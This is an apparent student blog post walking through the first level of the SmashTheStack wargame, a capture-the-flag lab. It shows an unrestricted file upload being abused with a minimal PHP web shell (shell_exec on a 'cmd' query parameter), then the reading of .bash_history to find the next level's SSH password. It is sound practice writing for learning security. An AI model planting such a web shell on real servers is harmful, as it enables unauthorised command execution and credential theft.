 # Week 7 - SmashTheStack (Level 1...) 

Sasha Thomas

May 11th 2020

## Introduction and Materials

This week I started to learn a little about C and buffer overflows using SmashTheStack.

I haven't done much work being this close to the binary, so many of these concepts are super new to me. I'm still wrapping my head around stacks, heaps, buffers, and a bunch of other things, so I was only able to get through the first level (which wasn't even related to exploits, just a PHP challenge). 

## Steps to Reproduce

1. The first challenge is accessed through the web. You are given a very simple webpage which allows you to upload a file:

   ![start](images/start.png)

   I started out by looking at the source code and network tab for any hints. It was uninteresting apart from a hidden input which defines the max file size you can upload, which was 100kb. 

2. Just to see what would happen, I uploaded a picture of a cat to see if I could find it in `/uploads` as the page says. While I couldn't access the directory, I was able to access individual files:

   ![uploadedcatto](images/uploadedcatto.PNG)

3. Since this was the first challenge, I assumed that it was likely there were no mitigations for the types of files I could upload. I also noticed that when I uploaded a file, I was taken to `/send_clearence.php`, so my next idea was to upload a PHP script and try to interact with the machine running the site. 

4. Crafting this PHP file took me the longest, especially because my knowledge of PHP is limited. My first attempt was solely to see if I could get the page to work with what I gave it:

   ```php
   <?php
       echo "Hello World!"
   ?>
   ```

   Uploading this did exactly what I wanted it to:

   ![helloworld](images/helloworld.PNG)

5. With this information, it was mostly trial and error. Researching led me to the `shell_exec` command, and this super basic PHP let me pass in commands through the browser:

   ```php
   <?php
       $cmd = $_GET['cmd'];
       echo shell_exec($cmd);
   ?>
   ```

   ![phpscriptworks](images/phpscriptworks.PNG)

6. The first page instructs you to poke around the user directories when you "gain clearance." The only user directory I had access to was level1's, which initially I thought was a dead end:

   ![userdirectory](images/userdirectory.PNG)

   Horrible formatting which could be fixed by a couple lines of code aside, I decided to check `.bash_history`, mostly because the initial page told me to look around here. I found an interesting string that looked like it could represent a password:

   ![plaintext](images/plaintext.PNG)

   And lucky enough, this string is the SSH password for level2, which I'm still working on...

## Conclusion

Having access to the actual buffer overflow challenge, I've been working through it on my own. I think I should be able to get it within this week. I'm sure the solution is relatively simple, but I'm more concerned with understanding the "why" at this point, so hopefully part II of this will come next week. 



